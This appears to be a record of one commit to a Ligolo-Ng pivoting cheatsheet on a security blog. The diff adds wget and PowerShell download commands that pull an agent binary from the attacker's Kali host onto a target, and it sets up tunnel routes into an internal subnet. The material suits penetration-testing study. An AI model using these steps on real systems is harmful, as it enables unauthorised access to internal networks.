

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-10-31-Ligolo-Ng-Cheatsheet.md, in a window 1280 px wide and 900 px high, scrolled down 1631 px. Shown: the whole window, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-10-31-Ligolo-Ng-Cheatsheet.md

````diff
--- a/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
+++ b/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
@@ -37,15 +37,19 @@
 # On Kali
 sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
 python3 -m http.server 443
-# On Target
+# On Target (Linux)
+cd /tmp
 wget http://<kali_ip>:443/agent
+# On Target (Windows using PowerShell)
+cd C:\Windows\Temp
+powershell -c iwr http://<kali_ip>:443/agent.exe -OutFile agent.exe
 ```
 Set up Ligolo-Ng on Kali:
 ```shell
 # Create an interface
 sudo ip tuntap add user Vorkharium mode tun ligolo
 sudo ip link set ligolo up
-# Add new IP range we want to access
+# Add new IP range we want to access (Examine Pivot Host with ifconfig, ip a, etc commands)
 sudo ip route add 172.16.150.0/24 dev ligolo
 ip route list
 # Run the proxy file
````
